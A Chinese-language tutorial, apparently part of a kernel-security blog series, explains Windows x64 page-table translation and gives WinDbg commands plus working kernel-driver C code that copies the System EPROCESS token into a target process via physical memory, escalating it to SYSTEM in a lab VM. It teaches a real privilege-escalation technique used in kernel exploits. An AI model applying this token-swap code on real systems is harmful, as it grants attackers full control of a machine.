


# 【第 17 話】從物理記憶體竄改 EPROCESS Token

## 文章大綱
從[【第 04 話】WinDbg 竄改 EPROCESS Token](/asset/第%2004%20話) 開始，我們學了許多修改 EPROCESS Token 的方法，除了[【第 06 話】IOCTL 與驅動程式溝通－實作竄改 EPROCESS TOKEN](/asset/第%2006%20話) 之外，還有[【第 10 話】寫 Shellcode 竄改 EPROCESS Token](/asset/第%2010%20話)。

這篇則要說明要如何把虛擬記憶體的位址轉成物理記憶體的位址，搭配使用 WinDbg 實證，最後寫程式透過物理記憶體來竄改 EPROCESS Token 達成提權。


## 背景知識
在 Windows x64 中，要將一個虛擬記憶體位址（Virtual Address，簡稱 VA）轉換成物理記憶體位址（Physical Address，簡稱 PA）需要查 4 張表，從最高層級往下分別是 PML4（Page Map Level 4）、PDPT（Page Directory Pointer Table）、PD（Page Directory）、PT（Page Table），而暫存器 CR3 存放 PML4 的位址。

每張表的名稱後面加個 E 代表 Entry，例如 PML4E 就是 PML4 這張表的其中一個項目。我們可以從 PML4E 找到對應的 PDPT，再從 PDPTE 找到 PD，然後從 PDE 找到 PT，最後從 PTE 找到對應的 Page。



在 x64 中一個位址 8 bytes，也就是 64 bits。
- 39～47 bits 代表 PML4 的第幾個 Entry
- 30～38 bits 代表 PDPT 的第幾個 Entry
- 21～29 bits 代表 PD 的第幾個 Entry
- 12～20 bits 代表 PT 的第幾個 Entry
- 0～11 bits 則是對應的 Page 的 Offset

以 0x7fffffd6001 這個 VA 為例，以下是 0x7fffffd6001 的二進位表示。
```
0000000000000000 000001111 111111111 111111111 111010110 000000000001
                    (15)     (511)     (511)      (470)       (1)
```

查表的步驟如下。
1. 從 PML4 的第 15 個 Entry 得知 PDPT 的位址
2. 從 PDPT 的第 511 個 Entry 得知 PD 的位址
3. 從 PD 的第 511 個 Entry 得知 PT 的位址
4. 從 PT 的第 470 個 Entry 得知對應的 Page 位址
5. 把 Page 的位址加上 Offset 1



因為 CPU 可訪問的 PA 只有 48 bits，但一個位址卻有 64 bits，所以 Canonical Address 這個概念提出 VA 也只有 48 bits，而第 48～64 bits 就沒用在查表中。

另外值得注意的是，每個表中的 Entry 放的其實都是一個叫做 [MMPTE_HARDWARE](https://www.geoffchappell.com/studies/windows/km/ntoskrnl/api/mm/mi/mmpte/hardware.htm) 的結構，不過我們可以從其中的 PageFrameNumber 乘以 Page 大小 `0x1000` 算出下一個表的位址。

```
kd> dt nt!_MMPTE_HARDWARE
   +0x000 Valid            : Pos 0, 1 Bit
   +0x000 Dirty1           : Pos 1, 1 Bit
   +0x000 Owner            : Pos 2, 1 Bit
   +0x000 WriteThrough     : Pos 3, 1 Bit
   +0x000 CacheDisable     : Pos 4, 1 Bit
   +0x000 Accessed         : Pos 5, 1 Bit
   +0x000 Dirty            : Pos 6, 1 Bit
   +0x000 LargePage        : Pos 7, 1 Bit
   +0x000 Global           : Pos 8, 1 Bit
   +0x000 CopyOnWrite      : Pos 9, 1 Bit
   +0x000 Unused           : Pos 10, 1 Bit
   +0x000 Write            : Pos 11, 1 Bit
   +0x000 PageFrameNumber  : Pos 12, 36 Bits
   +0x000 ReservedForHardware : Pos 48, 4 Bits
   +0x000 ReservedForSoftware : Pos 52, 4 Bits
   +0x000 WsleAge          : Pos 56, 4 Bits
   +0x000 WsleProtection   : Pos 60, 3 Bits
   +0x000 NoExecute        : Pos 63, 1 Bit
```


## WinDbg 竄改 EPROCESS Token 的物理記憶體
理解了查表步驟後，用 WinDbg 實證我們學到的。開啟 VM，記得要在本機開啟 vmmon64.exe，並在 boot options 按 F8 選擇 `Disable Driver Signature Enforcement`。開機後執行一個 cmd。

首先找到 cmd 的 EPROCESS，VA 為 `ffff958c0bb92080`。
```
kd> !process 0 0 cmd.exe
PROCESS ffff958c0bb92080
    SessionId: 1  Cid: 12d0    Peb: 62aeb5e000  ParentCid: 06d0
    DirBase: 06d6f000  ObjectTable: ffffba8c22edef00  HandleCount:  40.
    Image: cmd.exe
```

把 VA `ffff958c0bb92080` 轉成二進制，PML4、PDPT、PD、PT 的 Entry 的 Index 分別是 299、48、93、402，最後 Offset 則是 128。
```
1111111111111111 100101011 000110000 001011101 110010010 000010000000
                   (299)      (48)     (93)      (402)       (128)
```

接下來的實作步驟如下。
1. 從 CR3 取得 PML4 的 PA
2. 用 37～48 bits 和 PML4 找到 PDPT
3. 用 30～38 bits 和 PDPT 找到 PD
4. 用 21～29 bits 和 PD 找到 PT
5. 用 12～20 bits 和 PT 找到 Page
6. 用 0～11 bit 算出轉換後的 PA

### 1. 從 CR3 取得 PML4 的 PA
然後讀出暫存器 CR3 的值，得到的結果是 PML4 的 PA `1ab000`。
```
kd> r CR3
cr3=00000000001ab000
```

### 2. 用 37～48 bits 和 PML4 找到 PDPT
用 `!dq` 讀取 PML4 的記憶體內容，[!dq](https://learn.microsoft.com/en-us/windows-hardware/drivers/debugger/-db---dc---dd---dp---dq---du---dw) 是用來讀 PA 的，而之前使用的 dq 則是讀 VA。我們可以在第 `299 + 1` 個 PML4E 找到 PDPT 的資訊。`0a000000011d1863` 中的 `11d1` 是 PageFrameNumber，乘上 1 個 Page 的大小就是 PDPT 的 PA `0x11d1000`。

```
kd> !dq 1ab000 L200
...
#1ab950 00000000`00000000 0a000000`011d1863
...
```

L 代表印的數量，以`!dq` 而言就是多少個 8 Bytes。

### 3. 用 30～38 bits 和 PDPT 找到 PD
從 PDPT `0x11d1000` 的第 48 個 Entry 取得 PD 的 PA `0x11d0000`。
```
kd> !dq 0x11d1000 L200
...
#11d1180 0a000000`011d0863 00000000`00000000
...
```

### 4. 用 21～29 bits 和 PD 找到 PT
從 PD `0x11d0000` 的第 59 個 Entry 取得 PT 的 PA `0x1ac8a000`。
```
kd> !dq 11d0000 L200
...
#11d02e0 0a000000`1790e863 0a000000`1ac8a863
...
```

### 5. 用 12～20 bits 和 PT 找到 Page
從 PT `0x1ac8a000` 的第 402 個 Entry 取得 Page 的 PA `0x21401000`。
```
!dq 1ac8a000 L200
...
#1ac8ac90 8a000000`21401963 8a000000`21482963
...
```

### 6. 用 0～11 bit 算出轉換後的 PA
最後把 Page 的 PA `0x21401000` 加上 128（0x80）就是最後轉換結果 `0x21401080`，也就是 cmd 的 EPROCESS 的 PA。

在竄改 Token 前先找到 System 的 EPROCESS Token 的值 `0xffffba8c2101804c`。
```
kd> !process 0 0 system
PROCESS ffff958c09478040
    SessionId: none  Cid: 0004    Peb: 00000000  ParentCid: 0000
    DirBase: 001ab000  ObjectTable: ffffba8c21014040  HandleCount: 1911.
    Image: System
    
kd> dq ffff958c09478040+358 L1
ffff958c`09478398  ffffba8c`2101804c
```

用 `!ed` 指令修改 cmd 的 EPROCESS Token 的 PA，因為 WinDbg 中沒有 `!eq` 指令，所以用 [!ed](https://learn.microsoft.com/en-us/windows-hardware/drivers/debugger/-eb---ed) 改兩次 4 bytes。
```
kd> !ed 0x21401080+358 2101804c
kd> !ed 0x21401080+35c ffffba8c
```

改完之後按 `g` 繼續執行，會發現在 cmd 輸入 `whoami` 時已經提權為 system。

### !PTE
其實在 WinDbg 有 `!pte` 指令自動列出各表的 Entry，[!pte](https://learn.microsoft.com/en-us/windows-hardware/drivers/debugger/-pte) 代表 Page Table Entry。結果如下，PXE 就是 PML4E、PPE 則是 PDPTE、pfn 是 PageFrameNumber。

```
kd> !pte ffff958c0bb92080
                                           VA ffff958c0bb92080
PXE at FFFFB8DC6E371958    PPE at FFFFB8DC6E32B180    PDE at FFFFB8DC656302E8    PTE at FFFFB8CAC605DC90
contains 0A000000011D1863  contains 0A000000011D0863  contains 0A0000001AC8A863  contains 8A00000021401963
pfn 11d1      ---DA--KWEV  pfn 11d0      ---DA--KWEV  pfn 1ac8a     ---DA--KWEV  pfn 21401     -G-DA--KW-V
```


## 寫程式
延續[【第 06 話】IOCTL 與驅動程式溝通－實作竄改 EPROCESS TOKEN](/asset/第%2006%20話)，程式先用 [PsLookupProcessByProcessId](https://learn.microsoft.com/zh-tw/windows-hardware/drivers/ddi/ntifs/nf-ntifs-pslookupprocessbyprocessid) 取得 EPROCESS Token 的 VA，再 [MmGetPhysicalAddress](https://learn.microsoft.com/zh-tw/windows-hardware/drivers/ddi/ntddk/nf-ntddk-mmgetphysicaladdress) 將目標 VA 轉換成 PA，然後呼叫 [MmMapIoSpace](https://learn.microsoft.com/zh-tw/windows-hardware/drivers/ddi/wdm/nf-wdm-mmmapiospace) 將 PA 映射回 VA。完整的專案也放在我的 GitHub [zeze-zeze/2023iThome](https://github.com/zeze-zeze/2023iThome/tree/master/AbuseEprocessTokenPhysicalAddress)。

程式步驟如下。
1. 取得 System 的 EPROCESS 的虛擬記憶體位址
2. 取得 System 的 EPROCESS Token 的物理記憶體位址並映射在虛擬記憶體中
3. 從映射的物理記憶體位址取得 System（pid 4）的 EPROCESS Token
4. 取得目標 pid 的 EPROCESS 的虛擬記憶體位址
5. 取得目標 pid 的 EPROCESS Token 的物理記憶體位址並映射在虛擬記憶體中
6. 把目標 pid 的 EPROCESS Token 的物理記憶體位址竄改成 System 的 EPROCESS Token

```c
case ABUSE_EPROCESS_TOKEN:
{
    DWORD64 systemToken;

    // 1. 取得 System 的 EPROCESS 的虛擬記憶體位址
    PsLookupProcessByProcessId((HANDLE)4, &pEprocess);

    // 2. 取得 System 的 EPROCESS Token 的物理記憶體位址並映射在虛擬記憶體中
    PHYSICAL_ADDRESS systemTokenPhysicalAddress = MmGetPhysicalAddress((PVOID)((DWORD64)pEprocess + 0x358));
    PVOID systemTokenMapPhysicalAddress = MmMapIoSpace(systemTokenPhysicalAddress, 8, MmNonCached);

    // 3. 從映射的物理記憶體位址取得 System (pid 4) 的 EPROCESS Token
    systemToken = *(DWORD64 *)systemTokenMapPhysicalAddress;

    // 4. 取得目標 pid 的 EPROCESS 的虛擬記憶體位址
    PsLookupProcessByProcessId(processId, &pEprocess);

    // 5. 取得目標 pid 的 EPROCESS Token 的物理記憶體位址並映射在虛擬記憶體中
    PHYSICAL_ADDRESS targetTokenPhysicalAddress = MmGetPhysicalAddress((PVOID)((DWORD64)pEprocess + 0x358));
    PVOID targetTokenMapPhysicalAddress = MmMapIoSpace(targetTokenPhysicalAddress, 8, MmNonCached);

    // 6. 把目標 pid 的 EPROCESS Token 的物理記憶體位址竄改成 System 的 EPROCESS Token
    *(DWORD64 *)targetTokenMapPhysicalAddress = systemToken;

    break;
}
```

這個程式繞一圈從 VA 轉 PA，再從 PA 映射回 VA 的用意是想讓大家認識驅動程式操作 PA 的 API，因為跟之後的文章相關。


## 測試
開啟 VM，記得要在本機開啟 vmmon64.exe，並在 boot options 按 F8 選擇 `Disable Driver Signature Enforcement`。

1. 先開一個 cmd
2. 載入 [AbuseEprocessTokenPhysicalAddress.sys](https://github.com/zeze-zeze/2023iThome/blob/master/AbuseEprocessTokenPhysicalAddress/bin/AbuseEprocessTokenPhysicalAddress.sys)
3. 執行 [AbuseEprocessToken.exe](https://github.com/zeze-zeze/2023iThome/blob/master/AbuseEprocessToken/bin/AbuseEprocessToken.exe)
4. 輸入 cmd 的 pid，接著下指令 `whoami` 會發現成功提權成 system 了。


## 參考資料
- [Exploiting CVE-2018-1038 - Total Meltdown](https://blog.xpnsec.com/total-meltdown-cve-2018-1038/)
- [从0开始：Windows内核利用的另一种方式](https://www.anquanke.com/post/id/91063)
- [虚拟地址（VA，virtual address）到物理地址（PA, ，physical address）的转换](https://blog.csdn.net/iNostory/article/details/115423627)
- [Windows内存机制](https://blog.csdn.net/RatOnSea/article/details/106842622)
- [Abusing Windows Physical](https://xz.aliyun.com/t/8392)